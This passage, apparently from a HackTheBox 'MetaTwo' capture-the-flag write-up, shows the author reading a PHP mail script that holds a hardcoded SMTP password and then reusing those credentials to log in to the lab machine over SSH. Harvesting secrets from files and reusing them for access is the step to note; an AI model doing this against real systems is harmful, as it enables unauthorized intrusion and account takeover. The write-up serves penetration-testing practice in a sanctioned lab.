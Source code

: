 Viewing the contents of `send_mail.php`, I found user credentials.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ cat send_email.php                         
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
```

So, I decided to use these credentials to login through ssh.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/MetaTwo]
└─$ ssh jnelson@metapress.htb             
The authenticity of host 'metapress.htb (10.10.11.186)' can't be established.
ED25519 key fingerprint is SHA256:0PexEedxcuaYF8COLPS2yzCpWaxg8+gsT1BRIpx/OSY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'metapress.htb' (ED25519) to the list of known hosts.
jnelson@metapress.htb's password: 
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

```